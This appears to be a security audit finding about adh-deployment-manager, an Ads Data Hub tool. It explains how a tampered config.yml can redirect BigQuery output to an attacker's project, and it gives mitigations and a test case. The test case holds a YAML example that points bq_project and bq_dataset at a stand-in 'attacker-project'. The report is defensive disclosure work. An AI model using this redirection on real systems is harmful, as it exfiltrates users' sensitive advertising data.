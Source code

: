 - Vulnerability Name: Configuration Manipulation for Data Exfiltration
- Description:
    1. An attacker gains unauthorized write access to the `config.yml` file. This could be achieved through various methods such as exploiting system vulnerabilities, social engineering, or insider access.
    2. The attacker modifies the `config.yml` file.
    3. Within the `config.yml`, the attacker changes the values of `bq_project` and `bq_dataset` to point to a BigQuery project and dataset under their control.
    4. The victim user executes the `adm` tool (e.g., using `adm run` or `adm deploy`) with the manipulated `config.yml` file.
    5. The `adh-deployment-manager` library reads the configuration from the modified `config.yml` file, including the attacker-controlled `bq_project` and `bq_dataset`.
    6. When the queries are executed, the results are written to the BigQuery project and dataset specified in the manipulated configuration, which is controlled by the attacker.
    7. The attacker can then access and exfiltrate the sensitive data from their BigQuery project.
- Impact:
    - Data Exfiltration: Sensitive data processed by ADH queries is written to an attacker-controlled BigQuery project, allowing the attacker to access and steal this data.
    - Unauthorized Access to Data: The attacker gains unauthorized access to potentially sensitive Ads Data Hub query results.
    - Compliance Violations: Exfiltration of user data can lead to serious violations of data privacy regulations and compliance standards.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - None: The provided code does not implement any specific mitigations against configuration manipulation. The documentation mentions access setup and authentication to ADH API, but no input validation or access control for the `config.yml` file is present in the code.
- Missing Mitigations:
    - Input Validation and Sanitization: Implement validation in the `Config` class (`adh_deployment_manager/config.py`) to check if `bq_project` and `bq_dataset` values conform to expected formats (e.g., project ID and dataset ID patterns).
    - Project/Dataset Whitelisting: Ideally, the application should only allow writing to a predefined list of authorized BigQuery projects and datasets. This list could be hardcoded or configured in a more secure manner, separate from the user-editable `config.yml`.
    - Access Control for `config.yml`: Implement operating system level access controls to restrict write access to the `config.yml` file only to authorized users or processes. This is an operational security measure but crucial to prevent unauthorized modification.
    - Configuration Change Monitoring and Logging: Implement logging of any changes made to the `config.yml` file. Monitoring these logs for unexpected modifications can help detect and respond to potential attacks.
- Preconditions:
    - Attacker Write Access to `config.yml`: The attacker must have write permissions to the `config.yml` file on the system where `adh-deployment-manager` is deployed.
    - Execution of `adm` Tool: A legitimate user must execute the `adm` tool (or use the library programmatically) after the `config.yml` file has been maliciously modified.
- Source Code Analysis:
    1. **`adh_deployment_manager/config.py` - Config class:**
        - The `Config` class is responsible for parsing the `config.yml` file.
        - In the `__init__` method, the `bq_project` and `bq_dataset` attributes are directly populated from the configuration file using `self.config.get("bq_project")` and `self.config.get("bq_dataset")`.
        - **Vulnerable Code Snippet:**
          ```python
          class Config:
              def __init__(self, path, working_directory=None):
                  # ...
                  self.bq_project = self.config.get("bq_project")
                  self.bq_dataset = self.config.get("bq_dataset")
                  # ...
          ```
        - **No Input Validation:** There is no input validation or sanitization performed on the values retrieved for `bq_project` and `bq_dataset`. The code directly trusts the values provided in the `config.yml` file.
    2. **`adh_deployment_manager/commands/run.py` - Runner.execute method:**
        - The `Runner.execute` method uses the `bq_project` and `bq_dataset` attributes from the `Config` object to construct the destination table path for the BigQuery output.
        - **Vulnerable Code Snippet:**
          ```python
          class Runner(AbsCommand):
              # ...
              def execute(self, deploy=False, update=False, **kwargs):
                  # ...
                  if not self.config.bq_project or not self.config.bq_dataset:
                      # ...
                  # ...
                  job = analysis_query._run(
                      query_for_run.get("start_date"),
                      query_for_run.get("end_date"),
                      f"{self.config.bq_project}.{self.config.bq_dataset}.{table_name}", # VULNERABLE LINE
                      query_for_run.get("parameters"), **kwargs)
                  # ...
          ```
        - **Direct Use of Configuration Values:** The code directly embeds `self.config.bq_project` and `self.config.bq_dataset` into the BigQuery destination table path without any checks to ensure they are valid or safe. This allows an attacker to control where the query results are written by manipulating the `config.yml` file.

- Security Test Case:
    1. **Setup:**
        - Deploy `adh-deployment-manager` in a test environment where you can modify the `config.yml` file.
        - Have a legitimate Google Cloud Project and BigQuery dataset where the tool is intended to write data (let's call it `legitimate-project:legitimate-dataset`).
        - Create a separate Google Cloud Project and BigQuery dataset under your control to simulate the attacker's environment (let's call it `attacker-project:attacker-dataset`). Ensure you have credentials to access `attacker-project:attacker-dataset`.
        - Configure `adh-deployment-manager` to use `legitimate-project:legitimate-dataset` in the original `config.yml`.
    2. **Malicious Configuration Modification:**
        - As an attacker, gain access to the `config.yml` file in the deployed environment.
        - Modify the `config.yml` file by changing the `bq_project` and `bq_dataset` values to your attacker-controlled project and dataset:
          ```yaml
          # ... other configurations ...
          bq_project: attacker-project
          bq_dataset: attacker-dataset
          # ... other configurations ...
          ```
        - Save the modified `config.yml` file.
    3. **Execute `adm run` command:**
        - As a legitimate user (or trigger the tool through its intended workflow), execute the `adm run` command (or any command that triggers query execution and data writing) using the modified `config.yml`:
          ```bash
          adm -c path/to/modified/config.yml run
          ```
    4. **Verify Data Exfiltration:**
        - After the `adm run` command completes successfully, check the BigQuery dataset in your attacker-controlled project (`attacker-project:attacker-dataset`).
        - Verify that the output tables generated by `adh-deployment-manager` and the corresponding query results are present in `attacker-project:attacker-dataset`, instead of the intended `legitimate-project:legitimate-dataset`.
    5. **Confirmation of Vulnerability:**
        - If the output tables and data are found in `attacker-project:attacker-dataset`, it confirms that the configuration manipulation vulnerability is exploitable, and an attacker can successfully redirect data output to their controlled environment.